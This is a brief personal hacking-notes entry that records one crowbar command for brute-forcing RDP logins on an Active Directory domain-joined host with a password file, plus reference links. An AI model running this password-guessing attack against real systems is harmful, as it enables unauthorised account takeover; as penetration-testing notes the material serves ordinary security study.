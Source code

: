 # crowbar brute force RDP active directory domain joined
```
crowbar -b rdp -n 1 -s $IP/32 -u username@DOMAIN.local -C ./passwords
```

# References
- [20221003150779](/zet/20221003150779/) crowbar brute force RDP
- ~/kb/hacking/commands/crowbar.md

Tags:
    #assorted


